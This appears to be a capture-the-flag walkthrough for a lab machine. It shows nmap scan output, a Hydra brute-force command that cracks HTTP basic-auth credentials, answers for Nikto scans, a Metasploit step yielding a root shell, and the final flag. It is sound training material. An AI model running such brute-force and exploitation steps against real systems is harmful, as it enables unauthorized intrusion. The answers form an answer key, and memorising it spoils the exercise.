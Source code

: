 Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit


Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.  

This task requires you to use the following tools:

-   Dirbuster
-   Hydra
-   Nmap
-   Nikto
-   Metasploit


**NMAP**
`
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-12 21:33 IST  
NSE: Loaded 151 scripts for scanning.  
NSE: Script Pre-scanning.  
NSE: Starting runlevel 1 (of 3) scan.  
Initiating NSE at 21:33  
Completed NSE at 21:33, 0.00s elapsed  
NSE: Starting runlevel 2 (of 3) scan.  
Initiating NSE at 21:33  
Completed NSE at 21:33, 0.00s elapsed  
NSE: Starting runlevel 3 (of 3) scan.  
Initiating NSE at 21:33  
Completed NSE at 21:33, 0.00s elapsed  
Initiating Ping Scan at 21:33  
Scanning 10.10.0.144 \[2 ports\]  
Completed Ping Scan at 21:33, 0.36s elapsed (1 total hosts)  
Initiating Parallel DNS resolution of 1 host. at 21:33  
Completed Parallel DNS resolution of 1 host. at 21:33, 0.01s elapsed  
Initiating Connect Scan at 21:33  
Scanning 10.10.0.144 \[1000 ports\]  
Discovered open port 22/tcp on 10.10.0.144  
Discovered open port 80/tcp on 10.10.0.144  
Discovered open port 1234/tcp on 10.10.0.144  
Discovered open port 8009/tcp on 10.10.0.144  
Completed Connect Scan at 21:34, 27.98s elapsed (1000 total ports)  
Initiating Service scan at 21:34  
Scanning 4 services on 10.10.0.144  
Completed Service scan at 21:34, 9.75s elapsed (4 services on 1 host)  
NSE: Script scanning 10.10.0.144.  
NSE: Starting runlevel 1 (of 3) scan.  
Initiating NSE at 21:34  
Completed NSE at 21:34, 10.21s elapsed  
NSE: Starting runlevel 2 (of 3) scan.  
Initiating NSE at 21:34  
Completed NSE at 21:34, 1.47s elapsed  
NSE: Starting runlevel 3 (of 3) scan.  
Initiating NSE at 21:34  
Completed NSE at 21:34, 0.00s elapsed  
Nmap scan report for 10.10.0.144  
Host is up, received syn-ack (0.36s latency).  
Scanned at 2021-06-12 21:33:53 IST for 50s  
Not shown: 996 closed ports  
Reason: 996 conn-refused  
PORT     STATE SERVICE REASON  VERSION  
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 72:6f:1c:b0:72:56:bb:32:38:9e:5c:78:58:90:44:a3 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhHAS2WZpUTp0/rL6JA5llofNeNqX4HhEpdffjxPBRpw7dx6K3JTjydBpPmNE6oUsOrDFoF3lAi+wYdyoYrXXUIQFT  
j266F46mChRiBu7/oMaIrXzG5LT2vpRRFQGqdZd5ga8/UFUPnFFUzwFnJp79QVEZTtjUN6nKCw+58BkQtAr995AfBaVOhryVsn5JpnXx5evr4eXK3tFILnt6Oe5PEM22Rc  
qUeG1TBk+DmsYX3zj/dqqTuFDOgof4tnNP9ewss+2UBiS0VJAv5IZlBUsubDQ4ayCJuYqeJ6C9Fc8q1rOMJo6JxdvkTRSdxi5GaZSezdU6SoBHAmv6G8EH3h47  
|   256 b7:76:1b:ff:b6:4f:fb:8b:2f:94:17:9b:36:74:60:85 (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHG6KC+ahwWfopDemQin5c5m8gHbH6YXmKwBiPpZ8js7Z9VvTuadpaOG  
glrxnnquh6hq4cZnH1cBosGyxsheNjk=  
|   256 5c:d9:57:63:98:21:14:08:be:99:04:93:9f:98:24:3f (ED25519)  
|\_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPw6UVZWx3X1HRU7J89xTPXkWQ+xVQxNoDDiesUW2itK  
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))  
| http-methods:    
|\_  Supported Methods: GET HEAD POST OPTIONS  
|\_http-server-header: Apache/2.4.18 (Ubuntu)  
|\_http-title: Site doesn't have a title (text/html).  
1234/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1  
|\_http-favicon: Apache Tomcat  
| http-methods:    
|\_  Supported Methods: GET HEAD POST OPTIONS  
|\_http-server-header: Apache-Coyote/1.1  
|\_http-title: Apache Tomcat/7.0.88  
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)  
|\_ajp-methods: Failed to get a valid response for the OPTION request  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
  
NSE: Script Post-scanning.  
NSE: Starting runlevel 1 (of 3) scan.  
Initiating NSE at 21:34  
Completed NSE at 21:34, 0.00s elapsed  
NSE: Starting runlevel 2 (of 3) scan.  
Initiating NSE at 21:34  
Completed NSE at 21:34, 0.00s elapsed  
NSE: Starting runlevel 3 (of 3) scan.  
Initiating NSE at 21:34  
Completed NSE at 21:34, 0.00s elapsed  
Read data files from: /usr/bin/../share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 50.25 seconds
`



1. What directory can you find, that begins with a "g"?

*HINT:* Use dirbuster
*ANSWER:*  /guidelines

2. Whose name can you find from this directory?

*ANSWER:* bob

3. What directory has basic authentication?

*ANSWER:* /protected


4. What is bob's password to the protected part of the website?

`
ashik@whitedevil:~$ hydra -l bob -P rockyou.txt -t 1 -f 10.10.0.144 http-get /protected/  
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-12 22:15:45  
\[DATA\] max 1 task per 1 server, overall 1 task, 14344398 login tries (l:1/p:14344398), ~14344398 tries per task  
\[DATA\] attacking http-get://10.10.0.144:80/protected/  
\[80\]\[http-get\] host: 10.10.0.144 login: bob password: bubbles  
\[STATUS\] attack finished for 10.10.0.144 (valid pair found)  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-12 22:16:26
`

![[Pasted image 20210612213229.png]]

*ANSWER:* bubbles

5. What other port that serves a webs service is open on the machine?

*ANSWER:* 1234

Going to the service running on that port, what is the name and version of the software?

6. Answer format: Full\_name\_of\_service/Version

*ANSWER:* Apache Tomcat/7.0.88

Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.

7. How many documentation files did Nikto identify?

*ANSWER:* 5

8. What is the server version (run the scan against port 80)?

*ANSWER:* Apache/2.4.18

9. What version of Apache-Coyote is this service using?

*ANSWER:* 1.1

Use Metasploit to exploit the service and get a shell on the system.

10. What user did you get a shell as?

*ANSWER:* root

11. What text is in the file /root/flag.txt

*ANSWER:* ff1fc4a81affcc7688cf89ae7dc6e0e1